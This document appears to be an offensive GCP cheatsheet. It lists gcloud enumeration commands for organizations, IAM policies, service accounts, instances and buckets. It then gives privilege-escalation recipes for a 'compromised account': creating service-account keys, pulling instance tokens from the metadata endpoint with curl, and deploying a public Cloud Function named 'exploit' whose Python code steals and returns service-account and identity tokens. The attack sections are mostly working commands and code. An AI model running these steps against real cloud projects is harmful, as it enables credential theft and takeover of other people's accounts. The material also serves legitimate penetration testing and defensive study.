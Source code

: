 ## GCP cheatsheet
### General
- End users can authenticate at `myaccount.google.com`
- Admins use `admin.google.com`
- For projects, use `console.cloud.google.com`
### Basic actions
- Visit the following URL to check token validity
```
https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=TOKEN
```
- Authenticate with a SA key file
```
gcloud auth activate-service-account --key-file KEYFILE.json
```
- List current config
```
gcloud config list
```
- Set project in config
```
gcloud config set project PROJECTID
```
- List authenticated accounts
```
gcloud auth list
```
### Organization, project, and service account enumeration
- List accessible organizations
```
gcloud organizations list
```
- List a specific organization's IAM policies
```
gcloud organizations get-iam-policy ORGANIZATIONID
```
- List projects
```
gcloud projects list
```
- List a specific project's IAM policies
```
gcloud projects get-iam-policy PROJECTNUMBER
```
- List a specific project's service accounts
```
gcloud iam service-accounts list --project PROJECTID
```
- List a SA's list of key IDs (ten keys is the maximum an account can have)
```
gcloud iam service-accounts keys list --iam-account SERVICEACCOUNT
```
- Get current account's policy on the given SA
```
gcloud iam service-accounts get-iam-policy SERVICEACCOUNT
```
- List custom roles for a specific project
```
gcloud iam roles list --project PROJECTID
```
- Get a specific role's permissions
```
gcloud iam roles describe ROLENAME --project PROJECTID
```
- Get a specific account's permissions
```
gcloud projects get-iam-policy project-staging-344908 --flatten="bindings[].members" --format='table(bindings.role)' --filter="bindings.members:EMAIL"
```

### Computer instance enumeration
- List compute instances
```
gcloud compute instances list
```
- Get a specific compute instance's description
```
gcloud compute instances describe INSTANCE
```
- Get current account's policy on a given compute instance
```
gcloud compute instances get-iam-policy INSTANCE --zone ZONE
```
- List firewall rules
```
gcloud compute firewall-rules list
```
- Get a specific firewall rule description
```
gcloud compute firewall-rules describe RULENAME
```
- List forwarding rules
```
gcloud compute forwarding-rules list
```
- List GKE clusters
```
gcloud container clusters list
```

### Storage and bucket enumeration
- List storages
```
gcloud storage ls
```
- List the contents of a specific bucket
```
gcloud storage ls BUCKETNAME
```

### Privilege escalation via SA key creation
- If the compromised account has `iam.serviceAccountKeyAdmin` permissions on an SA then you can create keys for the given SA
- Create a new key for the SA (will be saved to KEYNAME.json locally)
```
gcloud iam service-accounts keys create KEYNAME.json --iam-account SERVICEACCOUNT
```

### Privilege escalation via compute admin login
- If the compromised account has `compute.osAdminLogin` permissions then you have arbitrary access to any compute instance (similar to AWS SSM)
- Get into a compute instance with SSH
```
gcloud compute ssh --zone ZONE COMPUTEINSTANCE
```
- Enumrate the scope of the compute instance's SA
```
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/SERVICEACCOUNT/scopes
```
- Scope https://www.googleapis.com/auth/cloud-platform is editor permissions
- Get compute instance's SA token
```
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/SERVICEACCOUNT/token
```
- Save the token to a file and use it to enumerate as usual
```
gcloud projects list --access-token-file TOKENFILE
```

### Privilege escalation via cloud functions
- If the compromised account has editor permissions or the `iam.serviceAccounts.actAs` and `cloudfunctions.functions.create` permissions then you can escalate to owner or any other high privilege role
- Save the following code as `main.py`
```
import subprocess
import random
import io
import json
import string
import os
from urllib.request import Request, urlopen
from base64 import b64decode, b64encode

def exploit(request):
    req = Request('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token')
    req.add_header('Metadata-Flavor', 'Google')
    content = urlopen(req).read()
    token = json.loads(content)
    req = Request('http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/identity?audience=32555940559.apps.googleusercontent.com')
    req.add_header('Metadata-Flavor', 'Google')
    content = urlopen(req).read()
    token["identity"] = content.decode('utf-8')
    return json.dumps(token)
```
- Create the function (use with `--access-token-file` if you only have an access token)
```
gcloud functions deploy FUNCTIONAME --timeout 539 --trigger-http --allow-unauthenticated --source PATH/TO/main.py --runtime python37 --entry-point exploit --service-account TARGETSA
```
- Run the function (use with `--access-token-file` if you only have an access token)
```
gcloud functions call FUNCTIONNAME
```
- Run the function via HTTP
```
curl FUNCTIONURL
```
